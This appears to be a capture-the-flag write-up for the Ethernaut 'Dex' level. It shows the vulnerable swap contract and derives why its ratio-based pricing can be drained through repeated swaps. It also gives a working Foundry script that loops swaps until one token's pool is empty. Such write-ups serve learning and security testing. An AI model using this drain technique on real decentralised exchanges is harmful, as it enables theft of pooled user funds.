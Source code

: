 # Ethernaut Level 22 Dex

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract Dex is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function addLiquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapPrice(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableToken(token1).approve(msg.sender, spender, amount);
        SwappableToken(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableToken is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```

The `Dex` contract starts with a liquidity of 100 for both token1 and token2. Player starts with a balance of 10 for both tokens. We have to exploit the vulnerability of the contract to drain the dex liquidity of one of the tokens. The swapping logic is in function `getSwapPrice()`: `return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)))`. We can see that we caculate `swapAmount` by using a simple ratio of from-to liquidity and times `amountFrom`. We can use mathematical analysis to represent this swapping logic: 

We can let $X_n$ to be the liquidity of *from* token before n-th swap, and $Y_n$ to be the liquidity of *to* token before n-th swap. For the attacker (user), we set $a_n$ to be the amount of *from* token that the attacker wants to swap from the dex, and $b_n$ to be the amount of *to* token that will be swapped based on the swapping logic. We will have:
$$
b_n = \lfloor\frac{Y_n a_n}{X_n} \rfloor 
$$
It is true when $a_n <= attackerBalance$.

And we have:
$$
X_{n+1} = X_n + a_n \\
Y_{n+1} = Y_n - b_n
$$
 So we will have:
$$
Y_{n+1} = Y_n - \frac{Y_n a_n}{X_n} \\
\frac{Y_{n+1}}{Y_n} = \frac{X_n - a_n}{X_n}
$$
Time $\frac{Y_n}{X_{n+1}}$ on both sides:
$$
\frac{Y_{n+1}}{Y_n} \bullet \frac{Y_n}{X_{n+1}} = \frac{X_n - a_n}{X_n} \bullet \frac{Y_n}{X_{n+1}}\\
\frac{Y_{n+1}}{X_{n+1}}= \frac{Y_n}{X_n} \bullet \frac {X_n - a_n}{X_n + a_n}
$$
If we let $r_n = \frac{Y_n}{X_n}$, and $a_n = \epsilon X_n$, $0<\epsilon<1$, then we have:
$$
r_{n+1} = r_n \bullet \frac{1-\epsilon}{1+\epsilon} \\
r_n = r_0 (\frac{1-\epsilon}{1+\epsilon})^n
$$
It is easy to see that $r_n$ is strictly monotonically decreasing, and will be **0** when n becomes infinitely large. So we can drain the liquidity of the *to* token by swapping it *many* times. In this case, we can just swap all the player's balance of token1 to token2, then swap all the balance of token2 to token1..., and at a certain iteration, we can drain the liquidity of either token1 or token2.

`IDex.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDex {
    function swap(address from, address to, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
    function token1() external view returns (address);
    function token2() external view returns (address);
    function getSwapPrice(address from, address to, uint256 amount) external view returns (uint256);
    function approve(address spender, uint256 amount) external;
}
```

Use an interface to interact with `Dex` instance.

`Dex.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {IDex} from "../src/IDex.sol";

contract DexScript is Script {
    address constant DEX_ADDRESS = 0xXXXXXXXXXXX;
    IDex dex = IDex(DEX_ADDRESS);
    address token1 = dex.token1();
    address token2 = dex.token2();
    bool toggle = true;

    function attack() public {
        if (toggle) {
            safeSwap(token1, token2);
        } else {
            safeSwap(token2, token1);
        }
        toggle = !toggle;
    }

    function safeSwap(address from, address to) public {
        uint256 fromLiquidity = dex.balanceOf(from, DEX_ADDRESS);
        uint256 toLiquidity = dex.balanceOf(to, DEX_ADDRESS);
        uint256 fromBalance = dex.balanceOf(from, msg.sender);
        uint256 amountToSwap = dex.getSwapPrice(from, to, fromBalance);
        amountToSwap = amountToSwap < toLiquidity ? amountToSwap : toLiquidity;
        uint256 amountFrom = (fromLiquidity * amountToSwap) / toLiquidity;
        dex.swap(from, to, amountFrom);
    }

    function run() external {
        vm.startBroadcast();
        dex.approve(DEX_ADDRESS, type(uint256).max);
        while (dex.balanceOf(token1, DEX_ADDRESS) > 0 && dex.balanceOf(token2, DEX_ADDRESS) > 0) {
            attack();
        }
        vm.stopBroadcast();
        console.log("Dex token1 balance:", dex.balanceOf(token1, DEX_ADDRESS));
        console.log("Dex token2 balance:", dex.balanceOf(token2, DEX_ADDRESS));
    }
}
```

This is the main attack logic. Notice that we have this line `dex.approve(DEX_ADDRESS, type(uint256).max);` to first grant full allowance for token1 and token2 from EOA to `Dex` so that the `Dex` can spend them for us. We use a `safeSwap` function to calculate the exact `amountFrom` before swapping because if the liquidity of the *to* token is less than the `amountToSwap`, the transfer function will fail since the `Dex` won't have enough money for the transaction.
